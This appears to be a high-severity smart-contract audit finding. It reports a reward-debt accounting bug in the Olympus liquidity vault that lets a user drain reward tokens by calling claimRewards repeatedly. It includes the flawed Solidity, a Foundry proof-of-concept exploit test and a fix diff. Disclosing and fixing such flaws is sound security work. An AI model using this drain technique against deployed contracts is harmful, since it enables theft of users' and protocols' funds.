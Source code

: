 Dug

high

# Incorrect application of debt allows reward tokens to be drained from liquidity vault

## Summary

When calculating rewards, `userRewardDebts` are not correctly deducted from the returned reward amounts. This allows an attacker to repeatedly call `claimRewards`, transferring rewards from the contract witch each call, until it is drained of one or more reward tokens

## Vulnerability Detail

After a user has held an LP position for a length of time, they can call `claimRewards` and receive their allocation of rewards from the contract. For each reward token, internal functions handle the payout of each type: `_claimInternalRewards` and `_claimExternalRewards`. 

For both, a reward amount is calculated in `internalRewardsForToken` or `externalRewardsForToken` respectively. 
```solidity
        uint256 reward = internalRewardsForToken(id_, msg.sender);
```

Then, the `userRewardDebts` are increased for the token by the reward amount. 

```solidity
        userRewardDebts[msg.sender][rewardToken] += reward;
```
The reward is then transferred to the sender.

So, `userRewardDebts` is being updated correctly based on the payout, but the issue is in how the reward is being calculated within `internalRewardsForToken` and `externalRewardsForToken`.

```solidity
    function internalRewardsForToken(uint256 id_, address user_) public view returns (uint256) {
        InternalRewardToken memory rewardToken = internalRewardTokens[id_];
        uint256 lastRewardTime = rewardToken.lastRewardTime;
        uint256 accumulatedRewardsPerShare = rewardToken.accumulatedRewardsPerShare;

        if (block.timestamp > lastRewardTime && totalLP != 0) {
            uint256 timeDiff = block.timestamp - lastRewardTime;
            uint256 totalRewards = timeDiff * rewardToken.rewardsPerSecond;

            // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
            accumulatedRewardsPerShare += (totalRewards * 1e18) / totalLP;
        }

        // This correctly uses 1e18 because the LP tokens of all major DEXs have 18 decimals
        uint256 totalAccumulatedRewards = (lpPositions[user_] * accumulatedRewardsPerShare) -
            userRewardDebts[user_][rewardToken.token];

        return (cachedUserRewards[user_][rewardToken.token] + totalAccumulatedRewards) / 1e18;
    }
```
When calculating the return, `userRewardDebts[user_][rewardToken.token]` is deducted from the `totalAccumulatedRewards` instead of from the returned reward. This results in the debt deducted being off by a factor of `1e18`. Nearly the entire accumulated reward is being returned without correctly accounting for the previous rewards that are tracked with `userRewardDebts`.

So, back in `_claimInternalRewards` and `_claimExternalRewards` the reward is outsized if the user has any existing `userRewardDebt` for that token.

## Impact

This issue creates a vulnerability where users can repeatedly call `claimRewards` to multiply their rewards. With each call, the contract calculates the reward without taking into account the users reward debt.

This issue occurs with both internal and external rewards. 

Additionally, the underlying bug creates issues when `_claimInternalRewards` and `_claimExternalRewards` is called as part of a withdrawal.

### Proof of concept

```solidity
    function testExploit__canMultiplyRewards() public {
        _withdrawTimeSetUp();

        // Verify initial state
        assertTrue(ldo.balanceOf(alice) == 0);
        assertTrue(liquidityVault.userRewardDebts(alice, address(ldo)) == 0);

        // Claim
        vm.prank(alice);
        liquidityVault.claimRewards();
        console2.log("1x Internal reward: ", ldo.balanceOf(alice));
        console2.log("Debts: ", liquidityVault.userRewardDebts(alice, address(ldo)));
        // 1x Internal reward:  9_999_999_999_999_999_977
        // Debts:               9_999_999_999_999_999_977

        vm.prank(alice);
        liquidityVault.claimRewards();
        console2.log("2x Internal reward: ", ldo.balanceOf(alice));
        console2.log("Debts: ", liquidityVault.userRewardDebts(alice, address(ldo)));
        // 1x Internal reward: 19_999_999_999_999_999_944
        // Debts:              19_999_999_999_999_999_944

        // Additional claims can be made until one of the reward tokens is drained
    }
```

## Code Snippet

https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L350-L386

## Tool used

Manual Review

## Recommendation

Update how user reward debt is deducted from rewards within `internalRewardsForToken` and `externalRewardsForToken`.

```diff
- uint256 totalAccumulatedRewards = (lpPositions[user_] * accumulatedRewardsPerShare) - userRewardDebts[user_][rewardToken.token];
- return (cachedUserRewards[user_][rewardToken.token] + totalAccumulatedRewards) / 1e18;

+ uint256 totalAccumulatedRewards = (lpPositions[user_] * accumulatedRewardsPerShare);
+ return (cachedUserRewards[user_][rewardToken.token] + totalAccumulatedRewards) / 1e18 - userRewardDebts[user_][rewardToken.token];
```

```diff
- uint256 totalAccumulatedRewards = (lpPositions[user_] * rewardToken.accumulatedRewardsPerShare) - userRewardDebts[user_][rewardToken.token];
- return (cachedUserRewards[user_][rewardToken.token] + totalAccumulatedRewards) / 1e18;

+ uint256 totalAccumulatedRewards = (lpPositions[user_] * rewardToken.accumulatedRewardsPerShare);
+ return (cachedUserRewards[user_][rewardToken.token] + totalAccumulatedRewards) / 1e18 - userRewardDebts[user_][rewardToken.token];
```